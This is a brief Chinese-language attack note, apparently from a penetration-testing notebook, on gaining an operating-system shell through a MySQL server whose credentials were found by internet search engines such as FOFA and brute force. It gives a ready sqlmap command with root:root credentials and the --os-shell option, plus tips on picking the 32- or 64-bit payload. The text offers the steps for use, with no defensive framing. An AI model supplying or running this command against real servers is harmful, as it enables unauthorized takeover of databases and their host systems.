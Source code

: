# sqlmap提权

用途：在fofa类搜索到目标数据库且爆破用户名密码，可以直接用sqlmap提权

```
sqlmap -d mysql://root:root@172.16.12.2:3306/mysql --os-shell
```



![image-20210824182034482](提权/image-20210824182034482.png)

按照目标sql的位数选择

32位选择 32位   64位选择32和64的都可以

![image-20210824182219972](提权/image-20210824182219972.png)

